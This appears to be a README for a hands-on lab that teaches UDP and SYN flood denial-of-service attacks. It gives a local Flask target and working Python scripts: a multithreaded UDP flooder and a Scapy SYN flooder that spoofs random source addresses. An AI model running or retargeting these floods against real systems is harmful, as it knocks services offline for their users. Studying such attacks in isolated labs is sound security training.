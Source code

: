 ### doslab

A hands-on penetration testing lab for safely simulating **UDP** and **SYN Flood** attacks on a controlled local server. This project is designed to help aspiring red teamers, penetration testers, and cybersecurity learners understand how network-layer denial-of-service attacks work by safely simulating real-world UDP and SYN floods in a controlled lab. By building the attack tools from scratch, observing their effects, and analyzing network behavior, you gain a strong foundation in offensive security, packet manipulation, and ethical exploitation. All outcome are documented in png format under files.

---

#### Project Goal

To simulate and study the behavior of simple denial-of-service (DoS) techniques—specifically **UDP flooding** and **SYN flooding**—against a locally hosted Flask server. This lab demonstrates how network services respond under stress and how basic packet floods can be scripted, launched, and observed in a safe, ethical manner.

---

### What You'll Learn

| Skill                     | Description |
|--------------------------|-------------|
| Packet Crafting        | Generate UDP and TCP SYN packets using Python & Scapy |
| Traffic Flooding       | Simulate network layer floods with multithreading |
| Traffic Inspection     | Analyze live packets using `tcpdump` or Wireshark |
| Protocol Behavior      | Observe how different protocols affect services under attack |
| Ethical Simulation     | Perform safe DoS testing in an isolated lab environment |

---

#### Lab Requirements

- Kali Linux (host or VM)
- Python 3
- Flask (`pip install flask`)
- Scapy (`pip install scapy`)
- tcpdump or Wireshark (for packet capture)

---

#### Steps

#### 1. Create a repository

```bash
mkdir ddoslab && cd ddoslab
```
---

#### 2. Create the server and start it

```bash
vim server.py
```

Include the python script

```python

from flask import Flask
app = Flask(__name__)

@app.route('/')
def home():
    return "Target up!"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001)
```

Run the server 

```bash
python3 server.py
```

You can now access target at http://127.0.0.1:5001 on your browser

---


#### 3. Create and Lauch a multithreded UDP flood

```bash
vim udp_flood.py
```

Input the python script below

```python

import socket, random, threading

target_ip = "127.0.0.1"
target_port = 5001

def attack():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    payload = random._urandom(1024)
    while True:
        sock.sendto(payload, (target_ip, target_port))

# Launch 10 attack threads
for _ in range(10):
    threading.Thread(target=attack, daemon=True).start()

print(f"UDP flooding {target_ip}:{target_port} with 10 threads...")
input("Press Enter to stop...\n")
```

lauch using the below command

```bash
python3 udp_flood.py
```


For monitoring open a seperate terminal for this 

```bash
sudo tcpdump -i lo port 5001
```
---

#### 4. Create and Lauch a SYN Flood with Scapy

```bash
vim syn_flood.py
```

Input the python script below

```python

from scapy.all import IP, TCP, send, RandShort, RandIP
import time

target_ip = "127.0.0.1"
target_port = 5001

def syn_flood():
    print(f"Starting SYN flood on {target_ip}:{target_port}")
    try:
        while True:
            ip = IP(src=RandIP(), dst=target_ip)
            tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
            pkt = ip / tcp
            send(pkt, verbose=False)
    except KeyboardInterrupt:
        print("\nAttack stopped by user.")

syn_flood()
```

lauch using the below command

```bash
python3 syn_flood.py
```

For monitoring open a seperate terminal for this 

```bash
sudo tcpdump -n -i lo port 5001
```
---
